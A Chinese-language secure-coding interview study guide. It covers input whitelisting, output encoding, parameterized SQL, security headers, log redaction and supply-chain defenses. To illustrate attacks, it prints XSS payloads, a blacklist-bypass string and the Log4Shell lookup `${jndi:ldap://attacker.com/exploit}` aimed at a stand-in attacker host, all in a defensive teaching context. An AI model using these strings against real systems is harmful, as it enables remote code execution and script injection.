


# 安全编码实践

## ⭐ 面试重点速览

| 面试高频考点 | 重要程度 | 考察方向 |
| --- | --- | --- |
| 输入校验策略 | :star::star::star::star::star: | 白名单 vs 黑名单、服务端校验不可省略、校验层次 |
| 输出编码 | :star::star::star::star::star: | HTML/JS/URL/CSS 上下文编码，防止 XSS |
| 参数化查询 | :star::star::star::star::star: | PreparedStatement、ORM 安全使用、动态 SQL 风险 |
| 最小权限原则 | :star::star::star::star: | 数据库权限最小化、服务账号隔离、文件权限 |
| 安全配置 | :star::star::star::star: | 默认配置的隐患、安全响应头、错误信息最小化 |
| 敏感数据处理 | :star::star::star::star: | 加密存储、日志脱敏、内存安全清理 |
| 依赖安全 | :star::star::star: | 依赖扫描、SBOM、供应链攻击防范 |

---

## 一、安全编码核心原则



---

## 二、输入校验

### 2.1 校验策略

::: tip 核心原则
**永远不要信任客户端输入**。前端校验仅用于提升用户体验，服务端校验是不可省略的安全底线。
:::



### 2.2 白名单 vs 黑名单

| 策略 | 方式 | 安全性 | 示例 |
| --- | --- | --- | --- |
| **白名单**（推荐） | 只允许已知安全的输入 | :star::star::star::star::star: | 只允许 `[a-zA-Z0-9_]+` |
| **黑名单** | 过滤已知危险的输入 | :star::star: | 过滤 `<script>`, `SELECT` 等 |

```java
// ✅ 白名单校验：只允许字母、数字和下划线
private static final Pattern USERNAME_PATTERN = Pattern.compile("^[a-zA-Z0-9_]{3,20}$");
public void register(String username) {
    if (!USERNAME_PATTERN.matcher(username).matches()) {
        throw new IllegalArgumentException("用户名只允许字母、数字和下划线，长度 3-20");
    }
    // 通过白名单校验后才继续处理
}

// ❌ 黑名单校验：试图过滤已知危险字符，总有遗漏
public void register(String username) {
    String sanitized = username.replaceAll("<script>", "")
                               .replaceAll("SELECT", "");
    // 攻击者可用 <scr<script>ipt> 绕过，或者改用 SeLeCt 等变体
}
```

### 2.3 各类型输入的校验要点

| 输入类型 | 校验方式 | 示例 |
| --- | --- | --- |
| 字符串 | 长度限制 + 正则白名单 | 用户名：`[a-zA-Z0-9_]{3,20}` |
| 数字 | 范围限制 + 类型强转 | 年龄：`int` 类型，0-150 |
| 邮箱 | 格式验证 + 域名 MX 记录检查 | `^[^@]+@[^@]+\.[^@]+$` |
| URL | 协议白名单 + 域名白名单 | 只允许 `https://`，域名白名单 |
| 文件 | 类型白名单 + Magic Number 检测 | 只允许 JPG/PNG/PDF |
| JSON | Schema 校验 + 字段白名单 | 只允许已知字段，拒绝未知字段 |

---

## 三、输出编码

### 3.1 上下文相关编码

输出编码是防御 XSS 攻击的核心手段，必须根据**输出上下文**选择合适的编码方式。

| 输出上下文 | 编码方式 | 示例 |
| --- | --- | --- |
| HTML 正文 | HTML 实体编码 | `&` → `&amp;`，`<` → `&lt;` |
| HTML 属性 | HTML 属性编码 | 用双引号包围，编码引号字符 |
| JavaScript | JS 编码（\xHH 或 \uHHHH） | 使用 `JSON.stringify()` 输出 |
| URL 参数 | URL 编码（percent-encoding） | `encodeURIComponent()` |
| CSS | CSS 编码（\HHHHHH） | 避免用户输入进入 CSS |

```java
// ✅ 使用 OWASP Encoder 进行上下文编码
import org.owasp.encoder.Encode;

// HTML 正文中输出
String safeHtml = Encode.forHtml(userInput);  // < → &lt;

// HTML 属性中输出
String safeAttr = Encode.forHtmlAttribute(userInput);

// JavaScript 中输出
String safeJs = Encode.forJavaScript(userInput);

// ❌ 直接输出用户输入（XSS 风险）
response.getWriter().write("<div>" + userInput + "</div>");
```

### 3.2 前端输出编码

```javascript
// ✅ 安全 DOM 操作
element.textContent = userInput;  // 自动转义，不执行 HTML
element.setAttribute('data-value', userInput);  // 属性值安全

// ❌ 危险的 DOM 操作
element.innerHTML = userInput;  // XSS 风险！
document.write(userInput);  // XSS 风险！
eval(userInput);  // 远程代码执行风险！
```

---

## 四、参数化查询

### 4.1 不同语言/框架的正确姿势

```java
// Java - JDBC PreparedStatement
String sql = "SELECT * FROM users WHERE username = ? AND status = ?";
PreparedStatement stmt = connection.prepareStatement(sql);
stmt.setString(1, username);     // 参数绑定
stmt.setString(2, "active");
ResultSet rs = stmt.executeQuery();
```

```java
// Java - Spring Data JPA
@Query("SELECT u FROM User u WHERE u.username = :username")
User findByUsername(@Param("username") String username);

// ⚠️ 动态排序/分组需要使用白名单校验
private static final Set<String> ALLOWED_COLUMNS = Set.of("id", "username", "created_at");
private static final Set<String> ALLOWED_DIRECTIONS = Set.of("ASC", "DESC");

public List<User> getUsersByOrder(String orderBy, String direction) {
    if (orderBy == null || !ALLOWED_COLUMNS.contains(orderBy)) {
        throw new IllegalArgumentException("Invalid column: " + orderBy);
    }
    if (direction == null || !ALLOWED_DIRECTIONS.contains(direction.toUpperCase())) {
        throw new IllegalArgumentException("Invalid direction: " + direction);
    }
    // 白名单验证通过后才能拼接
    return jdbcTemplate.query(
        "SELECT * FROM users ORDER BY " + orderBy + " " + direction.toUpperCase(),
        userRowMapper
    );
}
```

::: danger 动态 SQL 的陷阱
对于 `ORDER BY`、`GROUP BY`、表名、列名等**无法使用参数化查询**的场景，必须使用**白名单校验**。永远不要将用户输入直接拼接到 SQL 语句中，即使使用了 ORM 框架。
:::

---

## 五、安全配置

### 5.1 安全响应头

| 响应头 | 作用 | 推荐配置 |
| --- | --- | --- |
| `Content-Security-Policy` | 限制资源加载来源，防 XSS | `default-src 'self'; script-src 'self'` |
| `Strict-Transport-Security` | 强制 HTTPS | `max-age=31536000; includeSubDomains` |
| `X-Content-Type-Options` | 禁止 MIME 类型嗅探 | `nosniff` |
| `X-Frame-Options` | 防止点击劫持 | `DENY` 或 `SAMEORIGIN` |
| `Referrer-Policy` | 控制 Referer 信息泄露 | `strict-origin-when-cross-origin` |
| `Permissions-Policy` | 限制浏览器 API 权限 | `camera=(), microphone=(), geolocation=()` |

### 5.2 错误信息最小化

```java
// ❌ 错误：向用户暴露内部错误信息
@ExceptionHandler(Exception.class)
public ResponseEntity<?> handleError(Exception e) {
    return ResponseEntity.status(500)
        .body(Map.of("error", e.getMessage(),  // 泄露内部信息！
                     "stackTrace", e.getStackTrace()));  // 泄露代码结构！
}

// ✅ 正确：返回通用错误信息，详细错误只记录日志
@ExceptionHandler(Exception.class)
public ResponseEntity<?> handleError(Exception e) {
    log.error("Internal error: requestId={}", requestId, e);  // 详细信息只写日志
    return ResponseEntity.status(500)
        .body(Map.of("error", "服务内部错误",
                     "requestId", requestId));  // 返回通用信息 + 追踪ID
}
```

### 5.3 敏感信息处理

```java
// ✅ 敏感数据脱敏日志
log.info("用户登录成功: userId={}, ip={}", userId, ip);
// ❌ 绝不要记录密码
log.info("用户登录: username={}, password={}", username, password);  // 禁止！

// ✅ 敏感数据加密存储
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt(12));
// ❌ 绝不要明文存储密码
user.setPassword(password);  // 禁止！

// ✅ 内存中安全清理敏感数据
char[] passwordChars = password.toCharArray();
// 使用完毕后立即清零
Arrays.fill(passwordChars, '\0');
// ❌ 使用 String 存储密码（不可变，无法主动清除）
String password = "...";  // 密码在内存中残留，直到 GC
```

---

## 六、依赖安全

::: warning 供应链攻击
2021 年 log4j2 漏洞（CVE-2021-44228，CVSS 10.0）影响了全球数百万 Java 应用。2023 年 xz-utils 后门（CVE-2024-3094）差点攻陷全球 Linux 服务器。依赖安全已从"可选项"变为"必选项"。
:::

| 实践 | 工具 | 说明 |
| --- | --- | --- |
| 依赖扫描 | Snyk / OWASP Dependency-Check / Trivy | CI 中自动扫描已知漏洞 |
| SBOM | CycloneDX / SPDX | 软件物料清单，追踪所有依赖 |
| 私有仓库 | Nexus / Artifactory | 代理外部仓库，控制依赖来源 |
| 依赖锁定 | `pom.xml` 版本锁定 / `package-lock.json` | 锁定依赖版本，避免意外升级 |
| 最小依赖 | 定期审查 | 移除未使用的依赖，减少攻击面 |

---

## 七、与现有模块的交叉引用

| 相关模块 | 路径 | 内容侧重 |
| --- | --- | --- |
| 安全基础总览 | [安全基础总览](../fundamentals/index.md) | CIA 三元组、纵深防御 |
| OWASP Top 10 | [OWASP Top 10](./owasp-top10.md) | 十大安全风险的攻击原理与防御 |
| API 安全 | [API 安全](./api-security.md) | HMAC 签名、防重放、限流实践 |
| Spring Security 漏洞防护 | [spring-ecosystem/spring-security/vulnerability.md](../../spring-ecosystem/spring-security/vulnerability.md) | Spring Security 框架安全防护 |
| 前端安全 | [frontend/security/](../../frontend/security/) | 前端 XSS/CSRF/CSP 防护 |

---

## 八、面试经典高频题

### Q1：为什么说"前端校验不可依赖，服务端校验是安全底线"？

**参考答案：**

前端校验不可依赖的原因：
1. **绕过容易**：攻击者可以通过浏览器开发者工具修改 JavaScript、使用 curl/Postman 直接发请求、修改 HTTP 请求体等方式绕过所有前端校验
2. **非安全机制**：前端校验的设计目标是提升用户体验（即时反馈），而非安全保障
3. **代理拦截**：攻击者可以使用 Burp Suite、Fiddler 等工具拦截和修改请求

服务端校验不可省略的原因：
1. **最后防线**：服务端是攻击者无法控制的最后一道屏障
2. **数据完整性**：确保存储到数据库的数据始终符合预期格式
3. **安全合规**：PCI-DSS、GDPR 等法规要求服务端进行输入校验

最佳实践：**前端校验 + 服务端校验**，前端提高体验，服务端保证安全。

### Q2：动态 SQL（ORDER BY、GROUP BY）无法使用参数化查询时，如何安全处理？

**参考答案：**

对于 ORDER BY、GROUP BY、表名、列名等无法使用参数化查询的场景，必须使用**白名单校验**：

```java
// 定义允许的列名和排序方向
private static final Set<String> ALLOWED_COLUMNS = Set.of("id", "username", "email", "create_time");
private static final Set<String> ALLOWED_DIRECTIONS = Set.of("ASC", "DESC");

public List<User> getUsersByOrder(String orderBy, String sortDirection) {
    // 白名单校验
    if (orderBy == null || !ALLOWED_COLUMNS.contains(orderBy)) {
        throw new IllegalArgumentException("非法的排序字段");
    }
    if (sortDirection == null || !ALLOWED_DIRECTIONS.contains(sortDirection.toUpperCase())) {
        throw new IllegalArgumentException("非法的排序方向");
    }
    // 白名单通过后才能安全拼接
    return mapper.getUsersByOrder(orderBy, sortDirection.toUpperCase());
}
```

关键点：
- 白名单必须严格（只包含已知安全的列名）
- 使用集合（Set）存储白名单，判断复杂度 O(1)
- 如果列名是动态的（如多租户场景），使用映射表而非直接拼接

### Q3：CSP（Content Security Policy）如何防御 XSS？

**参考答案：**

CSP 通过 HTTP 响应头或 `<meta>` 标签，告诉浏览器哪些来源的资源可以被加载和执行。它是一个纵深防御机制，即使 XSS 注入成功，恶意脚本也无法执行。

核心指令：
```
Content-Security-Policy:
  default-src 'self';                          # 默认只允许同源
  script-src 'self' 'nonce-{random}';          # 脚本只允许同源 + 带 nonce 的内联脚本
  style-src 'self' 'unsafe-inline';            # 样式允许同源和内联
  img-src 'self' https://cdn.example.com;      # 图片允许同源和指定 CDN
  connect-src 'self' https://api.example.com;  # 只允许向指定 API 发请求
  frame-ancestors 'none';                      # 禁止被 iframe 嵌入
  report-uri /csp-report;                      # 违规报告端点
```

CSP 防御 XSS 的场景：
- 攻击者注入 `<script>alert(1)</script>`，因没有 nonce 属性被浏览器阻止
- 攻击者注入 ``，因不在 img-src 白名单被阻止
- 攻击者尝试外传数据到 `evil.com`，因不在 connect-src 白名单被阻止

### Q4：如何安全地处理日志中的敏感信息？

**参考答案：**

日志安全处理原则：
1. **绝不记录密码**：认证请求中不要记录密码字段，即使是错误的密码
2. **身份证/手机号脱敏**：保留前 3 后 4 位，中间用 `****` 替代
3. **Token 脱敏**：只记录 JWT 的 `sub` 字段，不记录完整 Token
4. **请求体脱敏**：对包含敏感信息的接口，日志中只记录请求 ID，不记录请求体
5. **日志访问控制**：生产日志限制访问权限，只允许运维人员查看
6. **日志保留策略**：设置合理的日志保留期限，过期自动清理

```java
// ✅ 安全的日志记录
log.info("用户登录: userId={}, ip={}", userId, ip);
log.info("订单创建: orderId={}, amount={}, userId={}", orderId, amount, userId);

// 手机号脱敏工具
public static String maskPhone(String phone) {
    if (phone == null || phone.length() != 11) return "***";
    return phone.substring(0, 3) + "****" + phone.substring(7);
}
```

### Q5：log4j2 漏洞（Log4Shell）的原理是什么？如何防御？

**参考答案：**

Log4Shell（CVE-2021-44228）是 log4j2 的 JNDI 注入漏洞，CVSS 评分 10.0（最高严重级别）。

**攻击原理**：
1. log4j2 的 `Message Lookup` 功能支持 `${prefix:name:key}` 语法进行动态字符串替换
2. 其中 `${jndi:ldap://attacker.com/exploit}` 会触发 JNDI 查找
3. 攻击者在日志输入中注入 JNDI 查找字符串（如通过 User-Agent、请求参数等）
4. log4j2 记录日志时解析该字符串，通过 LDAP 连接到攻击者服务器
5. 攻击者服务器返回恶意 Java 类，目标服务器加载并执行，实现 RCE（远程代码执行）

**防御措施**：
1. 升级 log4j2 到 2.17.0+（完全修复）
2. 设置 `log4j2.formatMsgNoLookups=true`
3. 移除 `JndiLookup` 类：`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
4. 限制应用服务器出站网络（阻止 LDAP/RMI 出站）
5. 运行时防护：使用 RASP 检测 JNDI 注入

### Q6：如何防范依赖混淆攻击（Dependency Confusion）？

**参考答案：**

依赖混淆攻击是攻击者利用包管理器（npm、Maven、PyPI）的解析优先级，上传与内部私有包同名的恶意包到公共仓库，使 CI/CD 构建时下载恶意包。

防御措施：
1. **私有仓库优先**：配置包管理器优先从私有仓库拉取，禁止回退到公共仓库
2. **包名作用域**：使用 `@company/package-name` 作用域命名（npm）或 `com.company:package-name` GroupId（Maven）
3. **版本锁定**：使用 `package-lock.json`、`pom.xml` 中的精确版本号
4. **仓库配置**：Maven 的 `mirrorOf` 配置，npm 的 `.npmrc` 配置 registry
5. **依赖审计**：CI 中检查依赖是否全部来自私有仓库
6. **SBOM**：生成软件物料清单，定期审计依赖来源